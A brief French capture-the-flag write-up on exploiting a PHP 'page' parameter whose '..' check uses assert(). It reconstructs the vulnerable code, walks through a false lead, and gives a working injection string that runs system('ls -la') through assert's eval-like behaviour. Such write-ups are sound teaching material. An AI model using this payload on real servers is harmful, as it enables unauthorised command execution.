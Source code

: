 
# Assert

On identifie rapidement dans l'url le paramètre "page" qui semble vulnérable à une LFI.

Après quelques tests et en regardant les erreurs, on comprend que le fichier PHP vérifie l'absence de '..' avec la fonction `assert` et la fonction `strpos`, puis il utilise certainement la fonction `include` pour afficher le fichier sélectionné. 

Le code PHP doit ressembler à ça :
```PHP
<?

assert("strpos('includes/' . $GET['page'] . '.php', '..')===false");

include 'includes/' . $GET['page'] . '.php';

?>
```

## Fausse piste
On peut contourner le filtre en réécrivant la condition puis en commentant la suite : on utilise l'input suivant `../test','ppp')===false ; //`.

Cependant, ce fichier n'est pas valide pour être affiché ensuite et on n'a l'erreur `'includes/../test','ppp')===false ; //.php' File does not exist`.

## Solution
En lisant la doc de `assert` on comprend qu'elle va évaluer notre code comme la fonction `eval`.

Il suffit d'injecter du code sans tout casser :
`page=','..') === <command> or strpos('xxx`
Ce qui donne :
```php
assert("strpos('includes/','..') === <command> or strpos('xxx.php', '..')===false");
```

On peut ensuite faire `command = system("ls -la")`
Et puis on lit le flag.